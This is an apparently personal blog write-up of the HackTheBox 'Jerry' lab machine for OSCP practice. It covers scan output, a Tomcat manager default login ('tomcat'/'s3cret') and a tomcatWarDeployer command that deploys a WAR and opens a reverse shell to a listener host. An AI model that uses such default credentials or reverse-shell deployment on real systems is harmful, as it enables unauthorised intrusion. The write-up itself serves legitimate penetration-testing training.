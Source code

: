 ```yaml
---
layout: post
title: HackTheBox Jerry Writeup - OSCP Practice 
categories: [security, hackthebox, oscp-writeups, thursday-snack]
tags: [security, hackthebox, oscp]
description: A comprehensive writeup on HackTheBox Jerry VM which helps learn and practice for OSCP.
---
```



### Quick Overview

[Jerry](https://app.hackthebox.com/machines/144) is one of the Windows Box from [TJNull OSCP Practice list](https://docs.google.com/spreadsheets/u/1/d/1dwSMIAPIam0PuRBkCiDI88pU3yzrqqHkDtBngUHNCw8/htmlview#). It's one of those quite easy machine where you get initial foothold & privilege escalation in a single hop.

![Jerry VM - HacktheBox Logo](/assets/media/htb-jerry-logo.jpg)

### Enumeration

#### NMapAutomator

Started with enumerating the target with [`NMapAutomator`](https://github.com/21y4d/nmapAutomator) script since it helps in automating all possible ports with vulnerability scripts from `nmap`. Additionally, `NmapAutomator` can help in recon process using `ffuf`, `nikto`, `DNSRecon`, `SMB` enumeration.

> `sudo nmapAutomator.sh -H $IP --type All`

```bash
Running all scans on jerry.htb with IP 3(NXDOMAIN)
No ping detected.. Will not use ping scans!
Host is likely running Unknown OS!
---------------------Starting Port Scan-----------------------
PORT     STATE SERVICE
8080/tcp open  http-proxy
---------------------Starting Script Scan-----------------------
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-title: Apache Tomcat/7.0.88
|_http-favicon: Apache Tomcat
|_http-server-header: Apache-Coyote/1.1

---------------------Starting Full Scan------------------------
PORT     STATE SERVICE
8080/tcp open  http-proxy
No new ports
```

#### Nikto Scan 

```
---------------------Running Recon Commands--------------------
Starting nikto scan                                                                                                    
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          10.129.136.9
+ Target Hostname:    jerry.htb
+ Target Port:        8080
+ Start Time:         2023-02-26 17:43:42 (GMT-5)
---------------------------------------------------------------------------
+ Server: Apache-Coyote/1.1
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ OSVDB-39272: /favicon.ico file identifies this app/server as: Apache Tomcat (possibly 5.5.26 through 8.0.15), Alfresco Community
+ Allowed HTTP Methods: GET, HEAD, POST, PUT, DELETE, OPTIONS 
+ OSVDB-397: HTTP method ('Allow' Header): 'PUT' method could allow clients to save files on the web server.
+ OSVDB-5646: HTTP method ('Allow' Header): 'DELETE' may allow clients to remove files on the web server.
+ Web Server returns a valid response with junk HTTP methods, this may cause false positives.
+ /examples/servlets/index.html: Apache Tomcat default JSP pages present.
+ OSVDB-3720: /examples/jsp/snp/snoop.jsp: Displays information about page retrievals, including other users.
+ Default account found for 'Tomcat Manager Application' at /manager/html (ID 'tomcat', PW 's3cret'). Apache Tomcat.
+ /host-manager/html: Default Tomcat Manager / Host Manager interface found
+ /manager/html: Tomcat Manager / Host Manager interface found (pass protected)
+ /manager/status: Tomcat Server Status interface found (pass protected)
+ 7890 requests: 0 error(s) and 14 item(s) reported on remote host
+ End Time:           2023-02-26 17:46:58 (GMT-5) (196 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
Finished nikto scan
```

#### Suspect 1

If you're familiar with Apache Tomcat and Java (JSP) based development, You'll certainly created a reverse shell out of this `Tomcat Manager` exposed in port `8080`. After checking the Nikto results, looks like `Tomcat Manager` has been exposed and it has few passwords in `<TOMCAT_HOME>/conf/tomcat-users.xml`. While trying to perform login, the error page actually exposes the password.

![Hackthebox - Jerry VM - Tomcat Manager Password exposure](/assets/media/htb-jerry-enumeration-2.png)

After consuming the password of `tomcat` user as `s3cret`, We're now able to manage, upload, destroy `JSP` based application via Tomcat Manager. This clearly shows a way to perform `Code execution` via uploading JSP War File. 

![Hackthebox - Jerry VM - Tomcat Manager](/assets/media/htb-jerry-tomcat-manager.png)

### Local Shell

Upon scrolling down in the same `Tomcat Manager` page, you may find an option to upload and deploy `war` file. This is where [`TomcatWarDeployer`](https://github.com/mgeeky/tomcatWarDeployer) comes useful. The only caveat was latest python 3.10 wasn't working with the script. I had to do bunch of changes as like `decode('utf-8')` & `encode()` between `str` and `byte` datastructure. This TomcatWarDeployer authenticate with `tomcat` user credentials and upload `jsp_app` and spawns a `reverse shell` in the same terminal.

`> python tomcatWarDeployer.py -U tomcat -P s3cret -H LHOST -p 443 jerry.htb:8080`

![Hackthebox - Jerry VM - Local Shell](/assets/media/htb-jerry-local-shell.png)

### Privilege Escalation

If you take a closer look at the `whoami` result `nt authority\system` which is already system admin level permission in Windows. You can grab your flags from Administrator\Desktop\flags directory. You can actually find couple of flags in `2 for the price of 1.txt` file.

```powershell
C:\apache-tomcat-7.0.88> cd flags                                                                                     

C:\Users\Administrator\Desktop\flags>

C:\apache-tomcat-7.0.88> dir                                                                                          
 Volume in drive C has no label.
 Volume Serial Number is 0834-6C04

 Directory of C:\Users\Administrator\Desktop\flags

06/19/2018  06:09 AM    <DIR>          .
06/19/2018  06:09 AM    <DIR>          ..
06/19/2018  06:11 AM                88 2 for the price of 1.txt
               1 File(s)             88 bytes
               2 Dir(s)   2,419,015,680 bytes free
```

![HackTheBox - Shivasurya.me](/assets/media/htb-sherlock.webp)

### Closing Note:

I hope this post is helpful for folks preparing for Offensive Security Certified Professional certification exam. For bugs,hugs & discussion, DM in [Twitter](https://twitter.com/sshivasurya). Opinions are my own and not the views of my employer.
